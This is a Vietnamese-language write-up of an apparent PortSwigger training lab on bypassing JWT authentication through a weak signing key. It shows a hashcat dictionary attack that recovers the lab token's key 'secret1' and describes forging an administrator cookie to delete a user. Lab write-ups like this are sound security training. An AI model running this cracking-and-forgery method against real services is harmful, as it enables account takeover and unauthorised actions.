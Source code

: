 # Lab: JWT authentication bypass via weak signing key

# 1. Vulnerable

1 đoạn mã `JWT` gồm 3 phần `header`, `payload`, `signature`

`Signature` được tạo ra từ `header + payload` và thuật toán hash với `secret key`

Nhiều dev sẽ sử dụng `sec_key` rất dễ đoán -> hacker sẽ brute force `secret key` để tạo ra `signature` tùy ý

# 2. Exploit

Đăng nhập vào tài khoản `wiener` đã được cho

![img0.png](images/img0.png)

Ta nhận được 1 `cookie` là mã `JWT`. Ta sẽ sử dụng hashcat để tìm ra `secret_key` nếu đó là 1 `secret_key` yếu

```bash
$ hashcat -a 0 -m 16500 eyJraWQiOiJhYzg4NTA3Yi1iMDRlLTQ3Y2YtYTdmYS04MzFjNDlmZDVjOGUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NjMwNjQ0N30.dBKLkQR0DPh6CJqvm_fyemXyDxoOTsx2Wfn-e4tM8BM /home/kali/Desktop/jwt.secrets.list 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 14.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-AMD Ryzen 5 5600H with Radeon Graphics, 1432/2929 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /home/kali/Desktop/jwt.secrets.list
* Passwords.: 103271
* Bytes.....: 1203512
* Keyspace..: 103261
* Runtime...: 0 secs

eyJraWQiOiJhYzg4NTA3Yi1iMDRlLTQ3Y2YtYTdmYS04MzFjNDlmZDVjOGUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NjMwNjQ0N30.dBKLkQR0DPh6CJqvm_fyemXyDxoOTsx2Wfn-e4tM8BM:secret1
```

Sau khi `hashcat` sử dụng `header`, `payload` và list `secret_key` để tạo ra mã JWT, nó sẽ so sánh với JWT đã được cung cấp, nếu giống nhau thì đó là `secret_key` cần tìm

Sử dụng `secret_key` để tạo ra 1 cookie của administrator và xóa `carlos`

![img1.png](images/img1.png)